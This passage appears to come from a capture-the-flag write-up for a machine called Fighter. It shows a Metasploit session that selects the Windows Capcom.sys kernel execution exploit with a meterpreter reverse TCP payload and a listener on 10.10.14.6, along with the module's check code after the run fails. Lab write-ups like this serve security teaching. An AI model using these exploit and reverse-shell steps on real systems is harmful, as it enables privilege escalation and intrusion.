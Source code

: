 The first one is blocked, but the second one works without issue. I can run from there as well.

### MSF Capcom Exploit

#### Identify

With a meterpreter shell on Fighter, I can use the Metasploit Capcom exploit:

```

msf6 exploit(multi/handler) > search capcom

Matching Modules
================

   #  Name                                   Disclosure Date  Rank    Check  Description
   -  ----                                   ---------------  ----    -----  -----------
   0  exploit/windows/local/capcom_sys_exec  1999-01-01       normal  Yes    Windows Capcom.sys Kernel Execution Exploit (x64 only)

Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/capcom_sys_exec

msf6 exploit(multi/handler) > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp

```

#### OS Check

If I try to run this right away, it returns an error:

```

msf6 exploit(windows/local/capcom_sys_exec) > run

[*] Started reverse TCP handler on 10.10.14.6:443 
[-] Exploit aborted due to failure: not-vulnerable: Exploit not available on this system.
[*] Exploit completed, but no session was created.

```

It’s not immediately clear what that means. I’ll find the source:

```

oxdf@hacky$ locate capcom_sys_exec.rb
/opt/metasploit-framework/embedded/framework/modules/exploits/windows/local/capcom_sys_exec.rb

```

This code seems to be where I’m getting stuck:

```

    check_result = check
    if check_result == Exploit::CheckCode::Safe || check_result == Exploit::CheckCode::Unknown
      fail_with(Failure::NotVulnerable, 'Exploit not available on this system.')
    end

```
